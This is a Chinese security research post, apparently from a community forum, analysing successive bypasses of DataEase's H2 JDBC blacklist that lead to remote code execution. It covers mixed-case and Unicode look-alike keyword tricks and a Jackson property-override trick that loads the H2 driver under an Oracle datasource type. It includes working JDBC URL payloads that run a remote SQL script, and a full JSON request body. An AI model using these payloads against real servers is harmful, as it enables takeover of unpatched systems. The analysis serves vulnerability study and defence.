










# dataease最新绕过利用json覆盖属性RCE-先知社区

> **来源**: https://xz.aliyun.com/news/18613  
> **文章ID**: 18613

---

# **dataease最新绕过利用json覆盖属性RCE**

## 前言

发现这个技巧和以前学的一个trick一模一样，于是来分析一下在这个漏洞中，是如何发挥作用的呢

在经历了那么多伦的 JDBC 的攻防绕过，竟然还能有最新的绕过手法，学习了技巧后,发现核心原理就是 json 的解析覆盖属性，以前也用过这个 trick，没想到还能在 jdbc 绕过用到这个 trick，而且感觉这个思路很容易再去使用到其他框架上

## 梦开始的地方

首先 dataease 梦开始的地方就是



jdbc 的连接参数，全部可以控制，最后造成的 rce

相同漏洞很火爆的比如最近国护爆出来的契约锁的 jdbc 漏洞，还有一个一直很火的 apache-hertzbeat ，还有个 apache 的 Apache InLong

而 JDBC 的本质就是连接过程中的反序列化操作，而且现在也提供了各种数据库的驱动,mysql 现在相对来说对版本限制比较高了，h2 是比较好利用的

## 与 JDBC 绕过的纠缠

简单说一下

### 大小写绕过

我们先看看之前的绕过手法

```
private void readSettingsFromURL() {
        DbSettings var1 = DbSettings.DEFAULT;
        int var2 = this.url.indexOf(59);
        if (var2 >= 0) {
            String var3 = this.url.substring(var2 + 1);
            this.url = this.url.substring(0, var2);
            String var4 = null;
            String[] var5 = StringUtils.arraySplit(var3, ';', false);
            String[] var6 = var5;
            int var7 = var5.length;
​
            for(int var8 = 0; var8 < var7; ++var8) {
                String var9 = var6[var8];
                if (!var9.isEmpty()) {
                    int var10 = var9.indexOf(61);
                    if (var10 < 0) {
                        throw this.getFormatException();
                    }
​
                    String var11 = var9.substring(var10 + 1);
                    String var12 = var9.substring(0, var10);
                    var12 = StringUtils.toUpperEnglish(var12);
                    if (!isKnownSetting(var12) && !var1.containsKey(var12)) {
                        var4 = var12;
                    } else {
                        String var13 = this.prop.getProperty(var12);
                        if (var13 != null && !var13.equals(var11)) {
                            throw DbException.get(90066, var12);
                        }
​
                        this.prop.setProperty(var12, var11);
                    }
                }
            }
​
            if (var4 != null && !Utils.parseBoolean(this.prop.getProperty("IGNORE_UNKNOWN_SETTINGS"), false, false)) {
                throw DbException.get(90113, var4);
            }
        }
​
    }
```

在解析我们传入的值的时候会把我们所有的连接参数转为大写

payload 就大小写混用就好了

```
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;InIT=rUNSCRIPT FROM 'http://127.0.0.1:50025/poc.sql'
```

### 异性字符绕过

具体原理参考下面的连接

写了一个脚本

```
public class UnicodeUppercaseMatch {
    public static void main(String[] args) {
        // 遍历大写字母 A-Z
        for (int j = 'A'; j <= 'Z'; j++) {
            char s = (char) j;
            // 遍历 Unicode 所有有效码点
            for (int i = 0; i <= Character.MAX_CODE_POINT; i++) {
                if (!Character.isValidCodePoint(i)) continue;

                String e = new String(Character.toChars(i));
                String eUpper = e.toUpperCase();
                if (eUpper.equals(String.valueOf(s)) && !e.equals(String.valueOf(s))) {
                    System.out.println("char: " + e + " (code point: " + i + ")");
                }
            }
        }
    }
}

```

这样去 fuzz



就会得到一些奇怪的异性字符

而在下一个版本，就是这样绕过的



可以看到输出为真

绕过手法就是 init，修改为ıNIT

```
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;ıNIT=RUNſCRIPT FROM 'http://127.0.0.1:50025/poc.sql'
```

## 最新的骚姿势

### 发现绕过过程

这个姿势可以说又把绕过提升了一个层面了

其实上面的绕过还有其他组件的绕过都是基于黑名单的绕过，就是这有一个黑名单，我让黑名单识别不到我，是一种直面黑名单的绕过，而最新的绕过手法其实是一个换条路走的这种手法

大家应该能够 get 到这个啥意思

下面详细分析一手

首先是到底如何解析我们的参数的？

```
@Override
public ConnectionObj getConnection(DatasourceDTO coreDatasource) throws Exception {
    ConnectionObj connectionObj = new ConnectionObj();
    DatasourceConfiguration configuration = null;
    DatasourceConfiguration.DatasourceType datasourceType = DatasourceConfiguration.DatasourceType.valueOf(coreDatasource.getType());
    switch (datasourceType) {
        case mysql:
        case mongo:
        case StarRocks:
        case doris:
        case TiDB:
        case mariadb:
            configuration = JsonUtil.parseObject(coreDatasource.getConfiguration(), Mysql.class);
            break;
        case impala:
            configuration = JsonUtil.parseObject(coreDatasource.getConfiguration(), Impala.class);
            break;
        case sqlServer:
            configuration = JsonUtil.parseObject(coreDatasource.getConfiguration(), Sqlserver.class);
            break;
        case oracle:
            configuration = JsonUtil.parseObject(coreDatasource.getConfiguration(), Oracle.class);
            break;
        case db2:
            configuration = JsonUtil.parseObject(coreDatasource.getConfiguration(), Db2.class);
            break;
        case pg:
            configuration = JsonUtil.parseObject(coreDatasource.getConfiguration(), Pg.class);
            break;
        case redshift:
            configuration = JsonUtil.parseObject(coreDatasource.getConfiguration(), Redshift.class);
            break;
        case h2:
            configuration = JsonUtil.parseObject(coreDatasource.getConfiguration(), H2.class);
            break;
        case ck:
            configuration = JsonUtil.parseObject(coreDatasource.getConfiguration(), CK.class);
            break;
        default:
            configuration = JsonUtil.parseObject(coreDatasource.getConfiguration(), Mysql.class);
    }
    startSshSession(configuration, connectionObj, null);
    Properties props = new Properties();
    if (StringUtils.isNotBlank(configuration.getUsername())) {
        props.setProperty("user", configuration.getUsername());
    }
    if (StringUtils.isNotBlank(configuration.getPassword())) {
        props.setProperty("password", configuration.getPassword());
    }
    String driverClassName = configuration.getDriver();
    ExtendedJdbcClassLoader jdbcClassLoader = extendedJdbcClassLoader;
    Connection conn = null;
    try {
        Driver driverClass = (Driver) jdbcClassLoader.loadClass(driverClassName).newInstance();
        conn = driverClass.connect(configuration.getJdbc(), props);

    } catch (Exception e) {
        DEException.throwException(e.getMessage());
    }
    connectionObj.setConnection(conn);
    return connectionObj;
}

```

支持各种数据驱动，获取我们数据库驱动后选择对应的驱动，网上一般是使用 h2 驱动

翻阅每次的修复文件



都是在 h2 的 getJdbc 方法下面

我们看到解析的过程

对于 h2 数据库



检测的黑名单 INIT 和 RUNSCRIPT

然后以及在之前进行了大写和去除斜杠的处理了

所以之前的手法以已经失去作用了

### 绕过核心原理

我们思考一下，这里其实就这些思路

能连接的情况下不走这个黑名单

能连接的情况下绕过这两个字符

当然这两种绕过方法我们需要不错过每一次对 jdbc 参数的解析，都可能成为我们绕过的点

这次的核心原理就是能连接的情况下不走这个黑名单

我们想一下什么时候才会走这个黑名单

没错，只有当我们的数据库驱动是 h2 的时候，才会走到这个代码这里来，因此就思考出来了一个思路，就是如何做到系统认为是 h2 驱动，但是又不走到这个代码

那就需要去看代码了

```
DatasourceConfiguration.DatasourceType datasourceType = DatasourceConfiguration.DatasourceType.valueOf(coreDatasource.getType());
switch (datasourceType) {
```

数据库的驱动是通过 type 来决定的

而这个 type 我们设定为其他数据库，那问题就出现在如何在解析参数的时候，认为我们是 h2 数据库

解析参数是通过 parseObject 来解析的

### parseObject 解析覆盖底层原理

其实上面是利用了 parseObject 解析覆盖的原理

```
deserialize:125, BeanDeserializer (com.fasterxml.jackson.databind.deser)
_readMapAndClose:3807, ObjectMapper (com.fasterxml.jackson.databind)
readValue:2797, ObjectMapper (com.fasterxml.jackson.databind)
parseObject:17, test
main:25, test
```

```
public Object deserialize(JsonParser p, DeserializationContext ctxt) throws IOException {
    if (p.isExpectedStartObjectToken()) {
        if (this._vanillaProcessing) {
            return this.vanillaDeserialize(p, ctxt, p.nextToken());
        } else {
            p.nextToken();
            return this._objectIdReader != null ? this.deserializeWithObjectId(p, ctxt) : this.deserializeFromObject(p, ctxt);
        }
    } else {
        return this._deserializeOther(p, ctxt, p.getCurrentToken());
    }
}
```

根据当前解析器是否指向对象起始符号 {，选择不同的反序列化策略：普通对象直接反序列化、带对象 ID 的特殊反序列化，或者处理非对象类型的数据

这里走的是最基础的策略

跟进 vanillaDeserialize

```
private final Object vanillaDeserialize(JsonParser p, DeserializationContext ctxt, JsonToken t) throws IOException {
    Object bean = this._valueInstantiator.createUsingDefault(ctxt);
    p.setCurrentValue(bean);
    if (p.hasTokenId(5)) {
        String propName = p.getCurrentName();

        do {
            p.nextToken();
            SettableBeanProperty prop = this._beanProperties.find(propName);
            if (prop != null) {
                try {
                    prop.deserializeAndSet(p, ctxt, bean);
                } catch (Exception var8) {
                    this.wrapAndThrow(var8, bean, propName, ctxt);
                }
            } else {
                this.handleUnknownVanilla(p, ctxt, bean, propName);
            }
        } while((propName = p.nextFieldName()) != null);
    }

    return bean;
}
```

这里在反序列化过程中会去设置我们的属性



原理就是去覆盖 driver 属性



最后底层调用 unsafe 去反射修改





这样成功覆盖了我们原有的属性

这个原理就可以用到上面那个场景了

## 绕过复现

payload

```
{"dataBase":"","driver":"org.h2.Driver","jdbcUrl":"jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'","urlType":"jdbcUrl","sshType":"password","extraParams":"","username":"","password":"","host":"","authMethod":"","port":0,"initialPoolSize":5,"minPoolSize":5,"maxPoolSize":5,"queryTimeout":30,"connectionType":"sid"}
```

编码后写入 configuration 字段

```
{"id":"","name":"a","description":"","type":"oracle","configuration":"base64后编码的内容"}
```



参考<https://fushuling.com/index.php/2025/06/23/%E4%BB%8E%E9%9B%B6%E5%BC%80%E5%A7%8B%E7%9A%84h2_jdbc_bypass%E4%B9%8B%E6%97%85/>

<https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html>  
<https://mp.weixin.qq.com/s/3luOvtjpff94izA_-huyAg>

repect Fushuling
